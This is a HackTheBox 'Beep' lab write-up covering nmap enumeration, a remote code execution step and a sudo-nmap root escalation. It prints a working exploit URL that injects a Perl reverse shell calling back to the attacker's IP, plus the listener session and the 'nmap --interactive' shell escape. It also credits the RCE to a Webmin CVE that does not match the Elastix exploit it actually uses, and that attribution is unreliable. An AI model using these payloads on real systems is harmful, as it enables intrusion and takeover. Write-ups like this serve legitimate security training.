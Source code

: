 # HackTheBox: [Beep](https://app.hackthebox.com/machines/Beep)

## Enumerate

```console
$ nmap -n -sCV -T4 -F $t                                                        
[...]

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp     Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http     Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3     Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: LOGIN-DELAY(0) STLS EXPIRE(NEVER) UIDL TOP PIPELINING RESP-CODES APOP AUTH-RESP-CODE IMPLEMENTATION(Cyrus POP3 server v2) USER
111/tcp   open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap     Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed SORT OK IMAP4 MAILBOX-REFERRALS UNSELECT X-NETSCAPE RENAME MULTIAPPEND RIGHTS=kxte LIST-SUBSCRIBED CATENATE ANNOTATEMORE THREAD=ORDEREDSUBJECT CHILDREN IMAP4rev1 IDLE NAMESPACE NO LITERAL+ CONDSTORE QUOTA SORT=MODSEQ LISTEXT STARTTLS THREAD=REFERENCES ACL BINARY ATOMIC URLAUTHA0001 ID UIDPLUS
443/tcp   open  ssl/http Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Elastix - Login page
|_ssl-date: 2023-10-10T22:34:46+00:00; -6s from scanner time.
|_http-server-header: Apache/2.2.3 (CentOS)
993/tcp   open  ssl/imap Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3     Cyrus pop3d
3306/tcp  open  mysql?
10000/tcp open  http     MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: -6s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 405.81 seconds
```

## Exploit

The version of Webmin is vulnerable to [CVE-2022-36446](https://github.com/emirpolatt/CVE-2022-36446), allowing RCE. ([Exploit](https://github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/blob/master/exploit.py).)

The following URL is enough to trigger the exploit and initiate a reverse shell to my listener: <https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication>:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.5%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.7] 58299
id
uid=100(asterisk) gid=101(asterisk)
```

## Escalate

`sudo` gives us a lot to work with:

```console
sudo -l    
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"              
                                             
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service  
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper 
```

I choose `nmap`:

```console
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
cat /root/root.txt
5b5170[...]
```
